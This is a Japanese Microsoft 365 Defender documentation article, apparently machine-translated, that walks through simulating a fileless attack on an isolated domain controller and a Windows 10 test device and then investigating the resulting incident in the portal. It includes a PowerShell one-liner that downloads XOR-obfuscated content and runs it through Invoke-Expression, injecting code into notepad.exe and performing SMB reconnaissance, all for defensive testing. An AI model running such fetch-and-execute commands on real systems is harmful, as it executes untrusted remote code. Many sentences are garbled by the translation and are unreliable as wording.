







# <a name="run-an-attack-simulation-in-a-microsoft-365-defender-pilot-environment"></a>パイロット環境で攻撃シミュレーションMicrosoft 365 Defender実行する


この記事は、パイロット環境を使用してインシデントの調査と対応を実行するプロセスの手順[1](eval-defender-investigate-respond.md) Microsoft 365 Defenderです。 このプロセスの詳細については、概要の記事を [参照](eval-defender-investigate-respond.md) してください。

パイロット環境を準備[](eval-defender-investigate-respond.md)した後、シミュレートされた攻撃でインシデントを作成し、Microsoft 365 Defender ポータルを使用して調査と対応を行って、Microsoft 365 Defender のインシデント対応と自動調査と修復機能をテストします。

インシデントは、Microsoft 365 Defenderのストーリーを構成する関連付けられたアラートと関連付けられたデータのコレクションです。

Microsoft 365やアプリは、疑わしいイベントや悪意のあるイベントやアクティビティを検出すると、アラートを作成します。 個々のアラートは、完了または継続的な攻撃に関する貴重な手がかりを提供します。 ただし、攻撃は通常、デバイス、ユーザー、メールボックスなど、さまざまな種類のエンティティに対してさまざまな手法を採用します。 結果は、テナント内の複数のエンティティに対する複数の通知になります。

>[!Note]
>セキュリティ分析とインシデント対応が初めての場合は、「最初のインシデント[](first-incident-overview.md)に対応する」チュートリアルを参照して、分析、修復、インシデント後のレビューの一般的なプロセスのガイド付きツアーを取得してください。
>

## <a name="simulate-attacks-with-the-microsoft-365-defender-portal"></a>ポータルで攻撃をMicrosoft 365 Defenderする

このMicrosoft 365 Defenderには、パイロット環境に対するシミュレートされた攻撃を作成する組み込みの機能があります。

- で使用するMicrosoft 365 DefenderのOffice 365トレーニング [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator) 。
  
  [攻撃シミュレーション Microsoft 365 Defender] ポータルで、[メールの送信&**の>] を選択します**。

- エンドポイントの&の攻撃Microsoft 365 Defenderのチュートリアル [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations) です。

  [ポータル] Microsoft 365 Defenderで、[エンドポイントとチュートリアル] >**シミュレーション&選択します**。

### <a name="defender-for-office-365-attack-simulation-training"></a>Defender for Office 365 攻撃シミュレーション トレーニング

セキュリティプラン 2 Office 365、Microsoft 365 E5 Microsoft Defender を使用する場合Office 365フィッシング攻撃に対する攻撃シミュレーション トレーニングが含まれます。 基本的な手順は次のとおりです。

1. シミュレーションの作成

   新しいシミュレーションを作成して送信する方法の手順については、「フィッシング攻撃をシミュレートする [」を参照してください](/microsoft-365/security/office-365-security/attack-simulation-training)。

2. ペイロードの作成

   シミュレーション内で使用するペイロードを作成する方法の手順については、「Create a custom payload for Attack Simulation [training」を参照してください](/microsoft-365/security/office-365-security/attack-simulation-training-payloads)。

3. 分析情報の取得

   レポートで分析情報を得る方法の手順については、「攻撃シミュレーション トレーニングを通じてインサイトを得る [」を参照してください](/microsoft-365/security/office-365-security/attack-simulation-training-insights)。

詳細については [、「Simulations」を参照してください](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations)。

### <a name="defender-for-endpoint-attack-tutorials--simulations"></a>Defender for Endpoint attack tutorials &シミュレーション

Microsoft の Defender for Endpoint シミュレーションを次に示します。

- ドキュメントドロップバックドア
- 自動調査 (バックドア)

Attack IQ と SafeBreach から追加のシミュレーションがあります。 一連のチュートリアルも用意されています。

シミュレーションまたはチュートリアルごとに、次の値を使用します。

1. 選択したシミュレーションまたはシナリオで提供されるドキュメントの対応するウォークスルーをダウンロードして読み取る。

2. シミュレーション ファイルをダウンロードします。 テスト デバイスでファイルまたはスクリプトをダウンロードすることもできますが、必須ではありません。

3. ドキュメントの説明に従って、テスト デバイスでシミュレーション ファイルまたはスクリプトを実行します。

 詳細については [、「Experience Microsoft Defender for Endpoint through シミュレートされた攻撃」を参照してください](/microsoft-365/security/defender-endpoint/attack-simulations)。

## <a name="simulate-an-attack-with-an-isolated-domain-controller-and-client-device-optional"></a>分離ドメイン コントローラーとクライアント デバイスを使用して攻撃をシミュレートする (オプション)

このオプションのインシデント対応演習では、PowerShell スクリプトを使用して分離された Active Directory ドメイン サービス (AD DS) ドメイン コントローラーと Windows 10 デバイスに対する攻撃をシミュレートし、インシデントを調査、修復、解決します。

まず、パイロット環境にエンドポイントを追加する必要があります。

### <a name="add-pilot-environment-endpoints"></a>パイロット環境エンドポイントの追加

最初に、分離された DS ドメイン コントローラーとADデバイスをパイロット環境にWindows 10する必要があります。

1. パイロット環境テナントが有効になっている[Microsoft 365 Defender。](m365d-enable.md#confirm-that-the-service-is-on)

2. ドメイン コントローラーが次の手順を実行します。

   - Server 2008 R2 Windows以降のバージョンで実行されます。
   - Id の [Microsoft Defender に報告し](/azure/security-center/security-center-wdatp) 、リモート管理 [を有効にしています](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)。
   - [Microsoft Defender for Identity と Microsoft Cloud App Security有効](/cloud-app-security/mdi-integration)にします。
   - テスト ドメインにテスト ユーザーが作成されています。 管理者レベルのアクセス許可は必要ではありません。

3. テスト デバイスが次の手順を実行します。

   - バージョン 1903 Windows 10以降のバージョンで実行されます。
   - DS ドメイン コントローラー ドメインAD参加しています。
   - 有効[Windows Defender ウイルス対策](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features)が設定されています。 問題が発生した場合は、このトラブルシューティング Windows Defender ウイルス対策を[参照してください](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-microsoft-defender-antivirus-is-not-disabled-by-a-policy)。
   - Microsoft [Defender for Endpoint にオンボードされています](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)。

テナントグループとデバイス グループを使用する場合は、テスト デバイス用の専用デバイス グループを作成し、それをトップ レベルにプッシュします。

1 つの方法は、AD DS ドメイン コントローラーとテスト デバイスを仮想マシンとしてホストMicrosoft Azure方法です。 シミュレートされたエンタープライズ テスト ラボ ガイドのフェーズ [1](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)の手順を使用できますが、APP1 仮想マシンの作成は省略できます。

結果を次に示します。



高度な手法を使用して検出を非表示にする高度な攻撃をシミュレートします。 この攻撃は、ドメイン コントローラーで開いたサーバー メッセージ ブロック (SMB) セッションを列挙し、ユーザーのデバイスの最近の IP アドレスを取得します。 攻撃のこのカテゴリは、通常、被害者のデバイスにドロップされたファイルを含め、メモリ内でのみ発生します。 既存のシステムツールと管理ツールを使用して"土地から離れ"、コードをシステム プロセスに挿入して実行を非表示にします。 このような動作により、検出を回避し、デバイス上で保持できます。

このシミュレーションでは、サンプル シナリオは PowerShell スクリプトから始まります。 実際には、ユーザーがスクリプトの実行を騙される可能性があります。または、以前に感染したデバイスから別のコンピューターへのリモート接続からスクリプトが実行される可能性があります。これは、攻撃者がネットワーク内で横方向に移動しようとした可能性があります。 管理者は、さまざまな管理アクティビティを実行するためにリモートでスクリプトを実行する場合も多いので、これらのスクリプトの検出が困難になる場合があります。


シミュレーション中、攻撃はシェルコードを一見無実のプロセスに挿入します。 このシナリオでは、このシナリオを使用notepad.exe。 シミュレーションではこのプロセスを選択しましたが、攻撃者は長時間実行されるシステム プロセス (たとえば、svchost.exe) をターゲットにしている可能性が高svchost.exe。 その後、シェルコードは攻撃者のコマンド アンド コントロール (C2) サーバーに問い合わせ、続行方法に関する指示を受け取る。 スクリプトは、ドメイン コントローラー (DC) に対する偵察クエリの実行を試みます。 偵察により、攻撃者は最近のユーザー ログイン情報に関する情報を取得できます。 攻撃者がこの情報を取得すると、ネットワーク内を横方向に移動して、特定の機密性の高いアカウントにアクセスできます。

> [!IMPORTANT]
> 最適な結果を得る場合は、可能な限り攻撃シミュレーションの指示に従ってください。

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a>分離された DS ドメイン AD攻撃シミュレーションを実行する

攻撃シナリオのシミュレーションを実行するには、次のコマンドを実行します。

1. パイロット環境に、分離された DS ドメイン コントローラーとADデバイスが含Windows 10してください。

2. テスト ユーザー アカウントを使用してテスト デバイスにサインインします。

3. テスト デバイスWindows PowerShellウィンドウを開きます。

4. 次のシミュレーション スクリプトをコピーします。

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > この記事を Web ブラウザーで開いた場合は、特定の文字を失わずに、または改行を追加せずにフル テキストをコピーする際に問題が発生する可能性があります。 この場合は、このドキュメントをダウンロードして Adobe Reader で開きます。

5. コピーしたスクリプトを PowerShell ウィンドウに貼り付け、実行します。

> [!NOTE]
> リモート デスクトップ プロトコル (RDP) を使用して PowerShell を実行している場合は **、CTRL-V** ホットキーまたは右クリック貼り付けメソッドが機能しないので、RDP クライアントで [クリップボード テキストの種類] コマンドを使用します。 PowerShell の最近のバージョンでは、そのメソッドを受け入れれなく場合があります。最初にメモリ内の メモ帳 にコピーし、仮想マシンにコピーしてから PowerShell に貼り付ける必要があります。

数秒後、アプリメモ帳開きます。 シミュレートされた攻撃コードは、そのコードにメモ帳。 完全なシナリオを体験するためにメモ帳自動的に生成されたインスタンスを開いた状態に保ちます。

シミュレートされた攻撃コードは、外部 IP アドレス (C2 サーバーのシミュレート) に通信し、SMB を介してドメイン コントローラーに対する偵察を試みる。

このスクリプトが完了すると、このメッセージが PowerShell コンソールに表示されます。

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

[インシデントと応答の自動化] 機能が動作しているのを確認するには、プロセスを開notepad.exe保持します。 [インシデントと応答の自動停止] プロセスが表示メモ帳表示されます。

### <a name="investigate-the-incident-for-the-simulated-attack"></a>シミュレートされた攻撃のインシデントを調査する

> [!NOTE]
> このシミュレーションを実行する前に、次のビデオを見て、インシデント管理が関連するアラートを調査プロセスの一部としてまとめ、ポータルで見つけ、セキュリティ操作でどのように役立つのかについて説明します。

> [!VIDEO https://www.microsoft.com/videoplayer/embed/RE4Bzwz?]

SOC アナリストの視点に切り替えて、このポータルで攻撃の調査Microsoft 365 Defenderできます。

1. ポータルを[開Microsoft 365 Defenderします](https://security.microsoft.com/)。

2. ナビゲーション ウィンドウで、[インシデント] を選択 **し、[インシデント&通知>選択します**。

3. シミュレートされた攻撃の新しいインシデントがインシデント キューに表示されます。

    

#### <a name="investigate-the-attack-as-a-single-incident"></a>攻撃を 1 つのインシデントとして調査する

Microsoft 365 Defender分析を関連付け、異なる製品のすべての関連するアラートと調査を 1 つのインシデント エンティティに集約します。 これにより、SOC アナリストMicrosoft 365 Defender複雑な脅威を理解して対応できるように、より広範な攻撃ストーリーが表示されます。

このシミュレーション中に生成されたアラートは同じ脅威に関連付けられるので、その結果、1 つのインシデントとして自動的に集計されます。

インシデントを表示するには、次の方法を実行します。

1. ポータルを[開Microsoft 365 Defenderします](https://security.microsoft.com/)。

2. ナビゲーション ウィンドウで、[インシデント] を選択 **し、[インシデント&通知>選択します**。

3. インシデント名の左側にある円をクリックして、最新のアイテムを選択します。 サイド パネルには、関連するアラートを含むインシデントに関する追加情報が表示されます。 各インシデントには、含まれるアラートの属性に基づいて説明する一意の名前があります。

   ダッシュボードに表示されるアラートは、サービス リソース (Microsoft Defender for Identity、Microsoft Cloud App Security、Microsoft Defender for Endpoint、Microsoft 365 Defender、Microsoft Defender for Office 365) に基づいてフィルター処理できます。

3. インシデント **の詳細を取得するには、[** インシデント ページを開く] を選択します。

   [インシデント **] ページ** では、インシデントに関連するアラートと情報を確認できます。 この情報には、アラートに関連するエンティティとアセット、アラートの検出ソース (Microsoft Defender for Identity、Microsoft Defender for Endpoint など)、およびアラートがリンクされた理由が含まれます。 インシデントアラートリストを確認すると、攻撃の進行状況が表示されます。 このビューから、個々のアラートを確認および調査できます。

   右側のメニューから [ **インシデント** の管理] をクリックして、インシデントにタグを付け、自分に割り当て、コメントを追加することもできます。

#### <a name="review-generated-alerts"></a>生成されたアラートを確認する

シミュレートされた攻撃中に生成されたアラートの一部を見てみよ。

> [!NOTE]
> シミュレートされた攻撃中に生成されたアラートの一部のみを実行します。 テスト デバイスで実行されている Windowsおよび Microsoft 365 Defender 製品のバージョンによっては、少し異なる順序で表示されるアラートが多く表示される場合があります。



##### <a name="alert-suspicious-process-injection-observed-source-microsoft-defender-for-endpoint"></a>アラート: 疑わしいプロセスの挿入が観察されました (ソース: Microsoft Defender for Endpoint)

高度な攻撃者は、高度でステルス性の高い方法を使用してメモリを保持し、検出ツールから隠します。 一般的な手法の 1 つは、悪意のある実行可能ファイルではなく、信頼できるシステム プロセス内から操作し、検出ツールやセキュリティ操作が悪意のあるコードを見つけるのを難しくする方法です。

SOC アナリストがこれらの高度な攻撃をキャッチできるよう、Microsoft Defender for Endpoint のディープ メモリ センサーは、さまざまなクロスプロセス コードインジェクション手法をこれまでにない可視性でクラウド サービスに提供します。 次の図は、Defender for Endpoint がコードを挿入しようとして検出され、警告を受け取った<i>notepad.exe。 </i>


##### <a name="alert-unexpected-behavior-observed-by-a-process-run-with-no-command-line-arguments-source-microsoft-defender-for-endpoint"></a>警告: コマンド ライン引数を使用しないプロセス実行で予期しない動作が発生します (ソース: Microsoft Defender for Endpoint)

Microsoft Defender for Endpoint の検出は、攻撃手法の最も一般的な属性をターゲットにしている場合が多い。 このメソッドは、耐久性を確保し、攻撃者が新しい戦術に切り替えるバーを上げる。

大規模な学習アルゴリズムを使用して、組織内および世界中の共通プロセスの通常の動作を確立し、これらのプロセスが異常な動作を示す状況を監視します。 これらの異常な動作は、多くの場合、余分なコードが導入され、それ以外の場合は信頼できるプロセスで実行されている状態を示しています。

このシナリオでは、 <i> プロセスが </i>notepad.exe、外部の場所との通信を伴う異常な動作を示しています。 この結果は、悪意のあるコードの導入と実行に使用される特定のメソッドとは独立しています。

> [!NOTE]
> このアラートは、追加のバックエンド処理を必要とする機械学習モデルに基づくため、ポータルでこのアラートが表示されるには時間がかかる場合があります。

アラートの詳細には、調査を展開するピボットとして使用できるインジケーターである外部 IP アドレスが含まれます。

アラート プロセス ツリーで IP アドレスを選択して、[IP アドレスの詳細] ページを表示します。


次の図は、選択した IP アドレスの詳細ページを表示します (アラート プロセス ツリーの IP アドレスをクリックします)。


##### <a name="alert-user-and-ip-address-reconnaissance-smb-source-microsoft-defender-for-identity"></a>アラート: ユーザーと IP アドレスの偵察 (SMB) (ソース: Microsoft Defender for Identity)

サーバー メッセージ ブロック (SMB) プロトコルを使用した列挙により、攻撃者は、ネットワークを横方向に移動して特定の機密性の高いアカウントにアクセスするのに役立つ、最近のユーザー ログオン情報を取得できます。

この検出では、SMB セッション列挙がドメイン コントローラーに対して実行されると、アラートがトリガーされます。



#### <a name="review-the-device-timeline-with-microsoft-defender-for-endpoint"></a>Microsoft Defender for Endpoint でデバイスのタイムラインを確認する

このインシデントのさまざまなアラートを確認した後、前に調査したインシデント ページに戻ります。 インシデント ページ **の [デバイス** ] タブを選択して、Microsoft Defender for Endpoint および Microsoft Defender for Identity によって報告されたこのインシデントに関連するデバイスを確認します。

攻撃が行われたデバイスの名前を選択して、その特定のデバイスのエンティティ ページを開きます。 そのページで、トリガーされたアラートと関連イベントを確認できます。

[タイムライン **] タブ** を選択して、デバイスのタイムラインを開き、発生したアラートと一緒にデバイスで観察されたイベントと動作を時系列順に表示します。


より興味深い動作の一部を展開すると、プロセス ツリーなどの有用な詳細が提供されます。

たとえば、警告イベント [疑わしいプロセスの挿入が観察されるまで **下にスクロールします**。 その下 **powershell.exe** プロセス notepad.exeに挿入するイベントを選択し、この動作の完全なプロセス ツリーをサイド ウィンドウの **[イベント** エンティティ] グラフに表示します。 必要に応じて、検索バーを使用してフィルター処理を行います。



#### <a name="review-the-user-information-with-microsoft-cloud-app-security"></a>[ユーザー情報] を使用してユーザー Microsoft Cloud App Security

インシデント ページで、[ユーザー] **タブを** 選択して、攻撃に関与するユーザーの一覧を表示します。 この表には、各ユーザーの調査優先度スコアを含む、各ユーザーに関する **追加情報が含** まれている。

ユーザー名を選択して、ユーザーのプロファイル ページを開き、詳細な調査を行います。 [リスクの高いユーザーの調査について詳しくは、以下の記事を参照してください](/cloud-app-security/tutorial-ueba#identify)。


#### <a name="automated-investigation-and-remediation"></a>調査と修復の自動化

> [!NOTE]
>このシミュレーションを実行する前に、次のビデオを見て、自動自己修復とは何か、ポータルでどこで見つけるか、セキュリティ操作でどのように役立つのかを理解してください。

> [!VIDEO https://www.microsoft.com/en-us/videoplayer/embed/RE4BzwB]

ポータルでインシデントに戻Microsoft 365 Defenderします。 [**インシデント] ページの****[調査**] タブには、Microsoft Defender for Identity と Microsoft Defender for Endpoint によってトリガーされた自動調査が表示されます。 次のスクリーンショットは、Defender for Endpoint によってトリガーされた自動調査のみを表示します。 既定では、Defender for Endpoint はキュー内にあるアーティファクトを自動的に修復します。修復が必要です。



調査をトリガーしたアラートを選択して、[調査の詳細] **ページを開** きます。 次の詳細が表示されます。

- 自動調査をトリガーしたアラート。
- 影響を受け取ったユーザーとデバイス。 追加のデバイスでインジケーターが見つかった場合は、これらの追加のデバイスも一覧表示されます。
- 証拠の一覧。 ファイル、プロセス、サービス、ドライバー、ネットワーク アドレスなど、検出および分析されたエンティティ。 これらのエンティティは、アラートに対して考えられる関係について分析され、良性または悪意のあると評価されます。
- 脅威が見つかりました。 調査中に検出された既知の脅威。

> [!NOTE]
> タイミングによっては、自動調査がまだ実行されている可能性があります。 証拠を収集して分析し、結果を確認する前に、プロセスが完了するまで数分待ちます。 [調査の **詳細] ページを** 更新して、最新の結果を取得します。

![[調査の詳細] ページの例。](../../media/mtp/fig15.png)

自動化された調査の間、Microsoft Defender for Endpoint は修復が必要な成果物の 1 notepad.exeプロセスを特定しました。 Defender for Endpoint は、自動修復の一環として疑わしいプロセスの挿入を自動的に停止します。

テスト デバイス上 <i>notepad.exe</i> プロセスの一覧から表示されなくなります。

#### <a name="resolve-the-incident"></a>インシデントを解決する

調査が完了し、修復が確認された後、インシデントを解決します。

[インシデント] **ページで** 、[インシデントの管理 **] を選択します**。 状態を [インシデントの **解決] に** 設定し、分類に対して **[True alert]** を選択し、判定に **対してセキュリティ テスト** を行います。

![[インシデントの管理] パネルを開いたインシデント ページの例を示します。スイッチをクリックしてインシデントを解決できます。](../../media/mtp/fig16.png)

インシデントが解決すると、関連付けられているすべてのアラートが、Microsoft 365 Defenderポータルで解決されます。

これにより、インシデント分析、自動調査、インシデント解決のための攻撃シミュレーションがラップされます。

## <a name="next-step"></a>次の手順

[](eval-defender-investigate-respond-additional.md)

手順 2 / 2:[インシデント対応Microsoft 365 Defender試す](eval-defender-investigate-respond-additional.md)

### <a name="navigation-you-may-need"></a>必要なナビゲーション

[評価環境Microsoft 365 Defender作成する](eval-create-eval-environment.md)
